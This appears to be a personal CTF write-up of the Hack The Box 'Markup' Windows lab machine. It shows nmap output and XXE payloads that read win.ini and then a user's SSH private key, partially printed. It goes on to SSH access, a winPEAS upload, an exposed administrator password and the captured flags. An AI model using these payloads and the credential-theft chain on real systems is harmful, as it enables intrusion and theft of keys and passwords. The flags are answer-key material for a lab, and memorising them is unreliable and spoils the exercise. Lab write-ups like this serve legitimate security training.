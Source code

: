 ```yaml
---
title: "Writeup: Markup"
date: 2021-01-18T22:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - included
  - windows
  - update
  - nmap
  - LFI
  - XXE
  - XML
  - cheatsheet
  - smb server
  - enum
  - winPEAS.exe
---
```


Here are notes from the named target:
Target is Windows
Host name Markup
IP 10.10.10.49

#Enumeration
Start with simple nmap - nmap -A -v 10.10.10.49 or nmap -sV -sC -p- -Pn 10.10.10.49 --min-rate=10000
```yaml
┌──(root💀kali)-[~]
└─# nmap -sV -sC -p- -Pn 10.10.10.49 --min-rate=10000                                        1 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-19 23:31 EST
Nmap scan report for 10.10.10.49
Host is up (0.066s latency).
Not shown: 65532 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```
With ports 80 and 443 open use browser to check web page which has login screen. Try out all collected credentials and find that Daniel and password from the target Included work to log you into the site. Try on the SSH server is nogo.
```yaml
# ssh daniel@10.10.10.49                                                       
The authenticity of host '10.10.10.49 (10.10.10.49)' can't be established.
ECDSA key fingerprint is SHA256:+ApFLFVrSG3bOU5dk/VwAR8tNLb+f4QVdkbysGCBSrc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.49' (ECDSA) to the list of known hosts.
daniel@10.10.10.49's password: 
Permission denied, please try again.
daniel@10.10.10.49's password: 
Permission denied, please try again.
daniel@10.10.10.49's password: 

```
Web page exploring notices that a cookie - PHPSESSID is set when Daniel logs in

Start up Burp and capture some Order process traffic we see that orders are sent to server in xml
```yaml
Cookie: PHPSESSID=e9rvi3an2fa6pilhpeq6g5efas
<?xml version = "1.0"?><order><quantity></quantity><item>Home Appliances</item><address></address></order>
```

So to test to see if it is vulnerable send this back instead :
```yaml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]><order><quantity>3</quantity><item>&test;</item><address>17th Estate, CA</address></order>
```
As data is processed in XML format, there is good chance of an XXE (XML External Entity) vulnerability. An XXE vulnerability occurs due to unsafe parsing of XML input, leading to LFI as well as RCE. Testing with the following payload yields good results.

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]><order><quantity>3</quantity><item>&test;</item><address>17th Estate, CA</address></order>

LFI Cheat sheet - https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/

SSH server port. SSH private keys are usually stored in C:\Users\username\.ssh\id_rsa  and ssh is open plus we know we have a user named Daniel so if he has a ssh key stored on the server we can ssh in using the key instead of his password - lets use LFI to check that location. Using the process of submitting an Order and replacing what the pages sends with the LFI string below and then catch the RESPONSe in BURP

```yaml
REQUEST

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/Users/Daniel/.ssh/id_rsa'>]><order><quantity>3</quantity><item>&test;</item><address>17th Estate, CA</address></order>

RESPONSE
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEArJgaPRF5S49ZB+Ql8cOhnURSOZ4nVYRSnPXo6FIe9JnhVRrdEiMi
...
vRCD2pONhqZOjinGfGUMml1UaJZzxZs6F9hmOz+WAek89dPdD4rBCU2fS3J7bs9Xx2PdyA
m3MVFR4sN7a1cAAAANZGFuaWVsQEVudGl0eQECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

#The exfiltration was successful and the private key can be used to login to the server as daniel.

#Where to put the file in Kali. SSH keys are found in ~/.ssh. Create a fille named id_rsa and then paste the key into it.

Save that file and then shange it's permissions so it can be used with:

chmod 400 id_rsa

Connect to the server via SSH with this
```yaml
ssh -i id_rsa daniel@10.10.10.49
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>
032d2fc8952a8c24e39c8f0ee9918ef7
```

Now to Enum the server whithin:

https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

Start a http server in your enum folder then wget the file to the windows server and run it

+] Looking for AutoLogon credentials                                          
    Some AutoLogon credentials were found!!                                           
    DefaultUserName               :  Administrator
    DefaultPassword               :  Yhk}QE&j<3M
    
SSH to the server and use the credentials found with winenum.exe

 Directory of C:\Users\Administrator\Desktop

03/05/2020  06:33 AM    <DIR>          .
03/05/2020  06:33 AM    <DIR>          ..
03/05/2020  06:33 AM                70 root.txt
               1 File(s)             70 bytes
               2 Dir(s)  13,578,170,368 bytes free

administrator@MARKUP C:\Users\Administrator\Desktop>more root.txt
f574a3e7650cebd8c39784299cb570f8

SMB SERVER

If WGET is not available you can run SMB server on Kali and use the Native net commands to get the file transferred or SCP
```yaml
scp -i ~/.ssh/id_rsa winPEAS64.exe daniel@10.10.10.49:c:/users/daniel/winPEAS64.exe
```

    

























